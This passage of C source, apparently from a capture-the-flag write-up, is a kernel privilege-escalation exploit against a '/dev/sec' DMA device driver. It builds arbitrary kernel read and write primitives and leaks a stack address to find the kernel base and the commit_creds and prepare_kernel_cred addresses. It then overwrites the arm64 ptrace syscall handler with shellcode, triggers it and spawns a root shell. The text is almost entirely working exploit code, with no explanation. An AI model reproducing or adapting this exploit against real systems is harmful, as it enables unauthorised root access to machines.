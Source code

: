 ```c
    buf[0].dst  = a;
    buf[0].src  = 0x100;
    buf[0].size = size;
    read(fd, buf, sizeof(struct lli));
    
    void * data = malloc(size);
    memcpy(data, a, size);
    return data;
}
uint64_t write_kernel(int fd, uint64_t kaddr, void * uaddr, uint64_t size) {
    memcpy(a, uaddr, size);
    buf[0].src = a;
    buf[0].dst = 0x1000;
    buf[0].size = size;
    write(fd, buf, sizeof(struct lli));    

    memset(buf, 0, sizeof(struct lli) * 4);
    buf[0].dst  = a;
    buf[0].size = 0x10;
	buf[1].dst  = kaddr;
    buf[1].src  = 0x1000;
    buf[1].size = size;
	buf[1].ctrl = PL666_LLI_MORE;
    return read(fd, buf, sizeof(struct lli) * 2);
}
int main() {
    int secfd = open("/dev/sec", O_RDWR); 
    char * nop[0x10];
    buf = mmap((void*)0x10000, 0x2000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    a   = mmap((void*)0x20000, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);

    uint64_t* kstack_leak = read_kernel(secfd, 0xffff800010003ee8, 16);
    printf("##\t%p:%p (%p)\n",0xffff800010003ee8, kstack_leak[0], kstack_leak[0] - 0xf11aa0);

	uint64_t kernel_base =  kstack_leak[0] - 0xf11aa0;
    uint64_t prepare_kernel_cred = kernel_base + 0x696a8;
    uint64_t commit_creds        = kernel_base + 0x693e0;
    uint64_t call_usermodehelper = kernel_base + 0x5a9a0;
    uint64_t __arm64_sys_ptrace  = kernel_base + 0x49c88;

    uint64_t shellcode[0x200/8];
    char * sc = "\xfd\x7b\xbe\xa9\xe9\x00\x00\x58\x00\x00\x80\xd2\x20\x01\x3f\xd6\xc9\x00\x00\x58\x20\x01\x3f\xd6\xfd\x7b\xc2\xa8\xc0\x03\x5f\xd6\x42\x42\x42\x42\x42\x42\x42\x42\x43\x43\x43\x43\x43\x43\x43\x43";
    memcpy(shellcode, sc, 0x100);
    shellcode[4]  = prepare_kernel_cred;
    shellcode[5]  = commit_creds;
    
    printf("Write shellcode...\n");
    write_kernel(secfd, __arm64_sys_ptrace, shellcode, 0x200);
    
    printf("Going to exec %p\n", __arm64_sys_ptrace);
    read(0, nop, 1);
    ptrace(PTRACE_TRACEME, 0, NULL, NULL);

    system("/bin/sh");
    return 0;
}
```
